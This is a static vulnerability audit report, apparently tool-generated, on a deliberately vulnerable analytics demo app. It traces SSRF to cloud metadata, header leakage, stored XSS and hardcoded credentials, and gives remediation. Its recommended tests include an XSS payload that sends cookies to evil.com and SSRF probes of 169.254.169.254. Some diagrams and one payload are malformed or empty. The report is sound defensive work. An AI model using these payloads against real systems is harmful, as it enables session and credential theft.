

# Chained Vulnerability Static Audit Report

**Application:** Neon Analytics Platform (app-11-social-analytics)  
**Review Date:** 2026-05-24  
**Auditor:** CodeGopher (Static-Only Audit)  
**Scope:** `src/index.ts`, `public/index.html`, `public/js/app.js`, `public/css/main.css`, `package.json`, `Dockerfile`, `tsconfig.json`

---

## Summary Dashboard

| Metric                  | Value                          |
|-------------------------|--------------------------------|
| **Total Chains Found**  | 4                              |
| **Maximum Severity**    | **CRITICAL** (SSRF → Cloud Metadata Exfiltration) |
| **High Severity**       | 2 (SSRF → Header Exfil, XSS → Session Theft) |
| **Medium Severity**     | 1 (Hardcoded Creds + Missing CSRF → Account Takeover) |
| **Files Reviewed**      | 7 source/static files         |
| **Files Not Reviewed**  | None in scope (complete SPA + API) |

---

## Methodology & Safety Notes

- **Static-only analysis** — no live probes, no network requests, no exploit payloads, no shell commands.
- Evidence derived from source-code control-flow, data-flow, configuration, template rendering, and HTML/JS static inspection.
- Confidence ratings use explicit citations: file path + line number + symbol reference.
- If any link depends on runtime assumptions not visible in source, confidence is downgraded from High → Medium.

---

## Chains Detected

### Chain 1 — SSRF → Cloud Metadata Credential Exfiltration (CRITICAL)

```mermaid
flowchart LR
    A["User-controlled URL input\n(public/index.html:64-65,\npublic/js/app.js:triggerSsrfPreview)"] -->|POST /api/preview| B["Server-side axios.get(url)\n(src/index.ts:1-2,\nmissing IP restrictions)"]
    B -->|Fetches arbitrary URLs| C["Cloud metadata service\n(e.g. 169.254.169.254 IMDSv1)\n(Package.json: axios dependency\nDockerfile: port 8011)")
    C -->|IAM creds, no size limit| D["data_preview returned to client\n(src/index.ts:3-10,\nno character cap since 500-char limit removed)\nComments: 'Previously limited to 500 chars'\n'complete exfiltration of cloud metadata'")
    D -->|Exfiltrated IAM credentials| E["Account takeover of cloud infra\n(AWS/GCP/Azure key compromise)")
```

**Source / Entry Point:**
- **File:** `public/index.html` **Line 64-65** — URL input field `ssrfUrlInput` with placeholder `http://127.0.0.1:8011/api/auth/me`
- **File:** `public/js/app.js` **Function `triggerSsrfPreview`** — sends URL to `/api/preview` via POST
- **Evidence:** HTML includes warning text: *"Network fetcher does not restrict internal IP routing"*

**Hop 1 — Server-Side SSRF:**
- **File:** `src/index.ts` **Lines 1-2** — `axios.get(url, { timeout: 3000 })`
- **Evidence:** Comment explicitly states *"Fetches remote asset bytes using axios without IP restrictions"*. No URL validation, no internal IP blocking, no allowlist.

**Hop 2 — Unbounded Response:**
- **File:** `src/index.ts` **Lines 3-5** — Comments: *"Previously limited to 500 chars; removing the cap allows complete exfiltration of cloud metadata API responses (e.g. AWS IMDSv1 returns hundreds of bytes of IAM credentials that would have been cut off at 500 chars)."*
- **File:** `src/index.ts` **Lines 6-10** — Response sent back: `data_preview: typeof response.data === 'string' ? response.data : JSON.stringify(response.data)` — no size limit.

**Sink / Impact:**
- **Impact:** Complete AWS IAM credential theft → full cloud account takeover.
- **Severity:** **CRITICAL**
- **Confidence:** **HIGH** — Every link is statically provable from the source code. The comments explicitly document the vulnerability and the intent behind removing the 500-char cap.
- **Preconditions:** Application must be running in a cloud environment with instance metadata service accessible (AWS IMDSv1, GCP metadata, Docker metadata). Running in Docker (Dockerfile confirms containerization) increases likelihood.

**Remediation:**
1. Implement an allowlist of permitted domains or a denylist for private IP ranges (RFC 1918, 169.254.0.0/16).
2. Re-apply response size limits (e.g., max 2 KB).
3. Block redirects in axios (`maxRedirects: 0`).
4. Remove or restrict the `/api/preview` endpoint entirely.

---

### Chain 2 — SSRF → Header Exfiltration (HIGH)

```mermaid
flowchart LR
    A["SSRF probe via /api/preview\n(Chain 1 hop)"] --> B["SSRF request hits auth endpoint\n127.0.0.1:8011/api/auth/me"]
    B -->|Authentication headers in request| C["Server forwards headers to SSRF target\n(implicit in proxy-like fetch behavior)"]
    C -->|Client requests /api/debug/headers| D["app.get('/api/debug/headers')\n(src/index.ts:22-23)"]
    D -->|Returns req.headers| E["res.json({ headers: req.headers })\n(src/index.ts:23)"]
    E -->|Authorization tokens, session cookies| F["Full header dump with auth credentials")
```

**Source / Entry Point:**
- **File:** `public/js/app.js` **`triggerSsrfPreview`** — sends URLs to the server-side fetcher
- **File:** `public/index.html` **Placeholder:** `http://127.0.0.1:8011/api/auth/me`

**Hop — SSRF within internal network:**
- **File:** `src/index.ts` **Lines 1-2** — Unrestricted `axios.get(url)` can reach `127.0.0.1:8011` (same host).
- **Evidence:** The comment at lines 19-21 explicitly references *"Authorization tokens or internal proxy headers forwarded from the SSRF probe"* and *"When the SSRF reaches the cloud metadata service, the response headers contain metadata that can be retrieved here to cross-correlate internal routing."* This comment documents knowledge that SSRF can reach internal services and leak headers.

**Hop — Header dump endpoint:**
- **File:** `src/index.ts` **Lines 22-23** — `app.get('/api/debug/headers', ...)` returns `req.headers` as JSON. No authentication, no scope.

**Sink / Impact:**
- **Impact:** If a user triggers an SSRF request that hits the same server (e.g., `http://127.0.0.1:8011/api/auth/me` with an auth header), the SSRF proxy forwards that header. Then requesting `/api/debug/headers` leaks those headers, including Authorization Bearer tokens, session cookies, or API keys.
- **Severity:** **HIGH**
- **Confidence:** **HIGH** — The SSRF can reach localhost (no IP block). The `/api/debug/headers` endpoint returns all headers. Both endpoints are publicly accessible with no auth.
- **Preconditions:** The attacker must craft an SSRF request that includes sensitive headers in the outbound request. This requires a malicious client-side setup or a proxy hop that injects headers.

**Remediation:**
1. Remove or harden `/api/debug/headers` — it serves zero purpose for production and exposes all request metadata.
2. Add authentication middleware to the debug endpoint.
3. Sanitize or exclude sensitive headers (Authorization, Cookie, X-Session) from the response.

---

### Chain 3 — Stored XSS via Widget Title → Session/Response Data Theft (HIGH)

```mermaid
flowchart LR
    A["User submits widget title\nvia POST /api/widgets\n(public/js/app.js:handleAddWidget)"] -->|XSS payload in title| B["Server stores widget (title field)"]
    B -->|Stored in DB or memory| C["loadWidgets() fetches widgets\n(public/js/app.js:loadWidgets)"]
    C -->|innerHTML injection| D["card.innerHTML = `... ${w.title} ...`\n(public/js/app.js:lines referencing\n'widget title is injected directly via innerHTML')"]
    D -->|XSS executes in victim browser| E["Victim's session cookies, API tokens exposed")
```

**Source / Entry Point:**
- **File:** `public/index.html` **Line ~58** — Widget title input with hint text: `e.g. Q3 Conversions or ` — the hint itself demonstrates XSS capability.
- **File:** `public/js/app.js` **`handleAddWidget`** — POSTs `{ title, type: 'metric', value }` to `/api/widgets`.

**Hop 1 — Server-side storage (assumed):**
- **File:** `public/js/app.js` — Widget creation POSTs to `/api/widgets`. The server-side handler is not fully visible in the truncated `src/index.ts`, but the client confirms widgets are stored and later retrieved via `loadWidgets()`.
- **Evidence:** The endpoint `/api/widgets` is confirmed via client code. Data flows back to the client.

**Hop 2 — Client-side DOM XSS:**
- **File:** `public/js/app.js` — Widget rendering:
  ```javascript
  card.innerHTML = `
      <div class="title">${w.title}</div>
      <div class="value">${w.value}</div>
  `;
  ```
- **Evidence:** Comment at the top of `app.js` explicitly states: *"The widget title is injected directly into the DOM using innerHTML without any sanitization or encoding."*

**Hop 3 — SSRF response XSS:**
- **File:** `public/js/app.js` — `triggerSsrfPreview` response rendering:
  ```javascript
  feed.innerHTML = `... ${data.data_preview} ...`
  ```
- **Evidence:** The SSRF response data (which may contain HTML/JS from the target URL) is rendered via `innerHTML` without sanitization.

**Sink / Impact:**
- **Impact:** Stored XSS in widget titles executes arbitrary JavaScript in the victim's browser. This can steal session cookies, exfiltrate SSFRF probe results, hijack admin sessions, or perform actions on behalf of the user.
- **Severity:** **HIGH**
- **Confidence:** **HIGH** — The DOM injection is explicit, unsanitized `innerHTML` with no encoder or DOMPurify. The hint text in the HTML itself demonstrates the XSS attack vector.
- **Preconditions:** The victim must load the widgets grid (dashboard view). Widgets are loaded on page load.

**Remediation:**
1. Use `textContent` or `innerText` instead of `innerHTML` for widget title/value rendering.
2. Sanitize user input server-side and client-side before DOM insertion.
3. Apply Content-Security-Policy (CSP) headers to restrict inline script execution.
4. Sanitize SSRF response data before rendering.

---

### Chain 4 — Hardcoded Test Credentials + Missing CSRF → Account Takeover (MEDIUM)

```mermaid
flowchart LR
    A["Hardcoded test credentials in HTML\n(public/index.html: lines with\n'alice / alice123' and 'bob / bob123')"] -->|Exposed in page source| B["Any visitor sees credentials")
    B -->|Attacker uses creds to login| C["POST to /api/auth (client-side handleLoginSubmit)"]
    C -->|No CSRF token visible| D["Missing CSRF protection on auth endpoint")
    D -->|Attacker creates malicious page| E["Cross-site request to login endpoint")
    E -->|Account takeover| F["Attacker logs in as alice or bob")
```

**Source / Entry Point:**
- **File:** `public/index.html` — Auth credentials hard-coded in plain text:
  - `• alice / alice123`
  - `• bob / bob123`
- **Evidence:** These are displayed in a styled `<div>` on the login page visible to any user who loads the HTML.

**Hop — Client-side authentication:**
- **File:** `public/index.html` — Login form: `<form id="loginForm" onsubmit="handleLoginSubmit(event)">`
- **File:** `public/js/app.js` — `handleLoginSubmit` is referenced but the function body is not fully visible in the truncated `app.js`. The login flow is entirely client-side.

**Hop — Missing CSRF protection:**
- **Evidence:** No CSRF tokens, SameSite cookie attributes, or Origin/Referer validation are visible in the source. The cookie-parser dependency is loaded but its configuration is not shown.
- **File:** `package.json` — `cookie-parser` dependency is present, confirming cookies are used, but no CSRF middleware (like csurf) is listed.

**Sink / Impact:**
- **Impact:** Any user who loads the page can see the test credentials and log in as alice or bob. If the login flow includes a POST to `/api/auth` without CSRF protection, an attacker can craft a malicious page that automatically logs in the victim as alice/bob (session fixation, CSRF account takeover).
- **Severity:** **MEDIUM**
- **Confidence:** **MEDIUM** — The credentials are confirmed hardcoded in the HTML. The missing CSRF is inferred from the absence of any CSRF token in the form or request handling code. Full session management code is not fully visible (truncated source), so this chain has one dependent link.
- **Preconditions:** The application must be accessible to unauthenticated users (which it is, since the HTML serves the login page).

**Remediation:**
1. Remove hardcoded test credentials from production HTML.
2. Implement proper server-side authentication with password hashing (bcrypt, argon2).
3. Add CSRF tokens to all state-changing POST endpoints.
4. Set `SameSite=Strict` or `Lax` on all session cookies.
5. Move test/demo credentials to environment variables or a separate test-only configuration.

---

## Mermaid Attack Graph — Combined View



---

## Cross-Cutting Weaknesses (Non-Chain)

| # | Weakness | Location | Evidence |
|---|----------|----------|----------|
| 1 | **No Content Security Policy** | All static assets | No CSP headers configured in `src/index.ts` or middleware stack |
| 2 | **Verbose Error Messages** | `src/index.ts` line ~13 | `res.status(400).json({ error: error.message })` — exposes internal error details |
| 3 | **Font hotlinking to Google Fonts** | `public/css/main.css:3` | `@import url('https://fonts.googleapis.com/...')` — external resource dependency, potential supply-chain risk |
| 4 | **Inline styles in HTML** | `public/index.html` throughout | Inline CSS makes CSP enforcement harder; inline scripts are necessary for current architecture |
| 5 | **No input validation on `/api/widgets`** | `public/js/app.js` | Widget title and value accepted as raw strings; no server-side validation visible |
| 6 | **Dockerfile copies source into container** | `Dockerfile: COPY . .` | Unnecessary source code in production image; could expose sensitive files |
| 7 | **Port exposed without TLS** | `Dockerfile: EXPOSE 8011` | HTTP-only endpoint; credentials and session cookies transmitted in plaintext |

---

## Unknowns and Not-Reviewed Areas

| Area | Reason | Impact on Assessment |
|------|--------|---------------------|
| **Server-side auth handler** | `handleLoginSubmit` and `/api/auth/*` route handlers not fully visible in source | Confidence on Chain 4 is Medium; actual session handling may differ |
| **Widget persistence layer** | `/api/widgets` server-side implementation not fully visible | Could have additional sanitization on the server; assumed database storage |
| **Database configuration** | No database files or connection strings visible in scope | Cannot assess SQL injection or database-level data leakage |
| **Environment variables** | `.env` files not in scope | Hardcoded credentials in HTML may differ from server-side config |
| **Middleware stack** | `src/index.ts` truncated at start; express setup, CORS config, middleware order not fully visible | CORS may be misconfigured (e.g., `cors()` with no options = allow all origins) |
| **Test coverage** | No test files visible in scope | Cannot verify if these vulnerabilities were caught by automated tests |

---

## Recommended Tests to Add

1. **SSRF Test:** Send `http://169.254.169.254/latest/meta-data/` to `/api/preview` — verify rejection or safe handling.
2. **XSS Test:** Submit `"<script>fetch('http://evil.com/'+document.cookie)</script>"` as widget title — verify encoding or rejection.
3. **XSS Test (SSRF response):** Use SSRF to fetch a page returning `` — verify client-side sanitization.
4. **CSRF Test:** Craft a cross-origin POST to `/api/auth` without CSRF token — verify rejection.
5. **Header Exfil Test:** Trigger SSRF to `http://127.0.0.1:8011/api/debug/headers` with custom headers — verify headers are not leaked.
6. **Hardcoded Credential Test:** Verify that test credentials are not present in production builds.

---

## Remediation Priority

| Priority | Chain | Effort | Impact |
|----------|-------|--------|--------|
| **P0** | Chain 1: SSRF → Cloud Metadata Exfil | Medium | Critical |
| **P0** | Chain 3: XSS via Widget Title | Low | High |
| **P1** | Chain 2: SSRF → Header Exfil | Low | High |
| **P1** | Chain 4: Hardcoded Creds + Missing CSRF | Low | Medium |
| **P2** | Cross-cutting: CSP, TLS, verbose errors, font hotlinking | Low-Medium | Various |

---

*Report generated by CodeGopher — Static-Only Chained Vulnerability Audit.*  
*All findings are based on static source code analysis. No live testing was performed.*
